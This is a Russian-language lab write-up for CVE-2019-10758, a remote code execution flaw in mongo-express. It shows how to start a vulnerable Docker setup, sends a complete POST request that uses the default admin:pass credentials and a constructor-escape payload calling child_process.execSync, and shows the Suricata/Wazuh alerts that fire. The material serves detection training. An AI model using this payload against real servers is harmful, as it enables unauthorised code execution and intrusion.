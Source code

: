 # CVE-2019-10758

Mongo-express до версии 0.54.0 уязвим для удаленного выполнения кода через конечные точки, использующие метод toBSON. Если злоумышленник может успешно войти в систему или целевой сервер не изменил пароль учетной записи по умолчанию (admin:pass), он может выполнить произвольный код node.js.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8081 будет доступна веб-страница mongo-express

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости отправьте следующий POST-запрос с полезной нагрузкой

```
POST /checkValid HTTP/1.1
Host: ваш-ip:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В результате был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
